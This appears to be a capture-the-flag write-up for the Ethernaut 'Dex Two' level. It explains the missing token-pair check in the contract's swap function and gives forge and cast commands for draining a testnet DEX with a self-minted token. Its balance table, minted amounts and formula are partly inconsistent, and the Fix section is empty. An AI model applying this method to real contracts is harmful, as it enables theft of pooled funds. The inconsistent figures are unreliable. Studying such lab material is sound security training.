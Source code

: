 # Dex2

This level requires you to exploit the DexTwo contract, a subtly modified version of the previous Dex contract, in a different manner. Your goal is to drain all balances of token1 and token2 from the DexTwo contract to complete the level.

You begin with 10 tokens each of token1 and token2 and DexTwo contract initially holds 100 tokens each of token1 and token2.

## Vulnerability

We will notice a missing line:

```bash
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This line is responsible for validating that swapping is only allowed between the two token addresses defined by the contract. Since this requirement is absent in `DexTwo`, we are allowed to swap any tokens, including ones we create. This is the key to draining the`DexTwo` contract.

## Attack

| Dex Two |      |      |Player|      |      |
|---------|------|------|------|------|------|
| token1  |token2|  BTN |token1|token2|  BTN |
| 100     |  100 |  100 |   10 |   10 |  300 |
| 0       |  100 |  200 |  110 |   10 |  200 | swap(token1, BTN)
| 0       |    0 |  300 |  110 |  110 |  0   | swap(token2, BTN)

```bash
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}

# It calculates the amount of token2 that will be returned when x amount of BTN is swapped. The formula is rearranged to solve for x, which gives x = 200 BTN. This means that to get all 100 token2 from the Dex, 200 BTN need to be swapped.
# 100 = (x * 100)/200 (200 tokens were minted by the contract)
```

According to the formula in `get_swap_amount()`, to get all the token2 from the Dex2, we need `100 = (x * 100)/200 - x = 200 BTN`. Therefore, we need to swap 200 BTN to get 100 token2. Once this is done, here's how the final balance table will look:

1. Deploy `DeployDex2Attack.sol`.

```bash
forge script script/DeployDex2AttackToken.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# https://sepolia.etherscan.io/address/0x659BFCd93A970941C49d54591A117d75042281A6

# At $CONTRACT_ADDRESS=0x659BFCd93A970941C49d54591A117d75042281A6
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 400
```

2. Send 100 BTN from `Dex2AttackToken` to `Dex2`.

```bash
cast send $CONTRACT_ADDRESS "transfer(address,uint256)" $DEX2_ADDRESS 100 --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --legacy

# https://sepolia.etherscan.io/tx/0xaa361215bdf3f8756b8d9646da8a6eba68d36ed4ff9db451fa3f336effbbf209

# At $CONTRACT_ADDRESS=0x659BFCd93A970941C49d54591A117d75042281A6
# balanceOf 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2 = 0

# At $DEX2_ADDRESS=0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# balanceOF
# token address (BTN): 0x659BFCd93A970941C49d54591A117d75042281A6
# Dex2 contract address (DEX2_ADDRESS) : 0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# equals 300
```

3. Approve `Dex2 address` to spend 300 BTN and enable it to perform the swap later.

```bash
cast send $CONTRACT_ADDRESS "approve(address,uint256)" $DEX2_ADDRESS 300 --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL --legacy

# https://sepolia.etherscan.io/tx/0xa134cdb28083dc2ec49789336be65724241aacf9c095312ca60956d3e671717c
```

4. Execute the swap of both tokens.

```bash
forge script script/DeployDex2AttackSwap.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

# At $DEX2_ADDRESS=0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# balanceOF
# token address (BTN): 0x659BFCd93A970941C49d54591A117d75042281A6
# Dex2 contract address (DEX2_ADDRESS) : 0x4AEC8ebe30f5dBe4402549D998Ae9E2068860CCf
# equals 300
```

## Fix

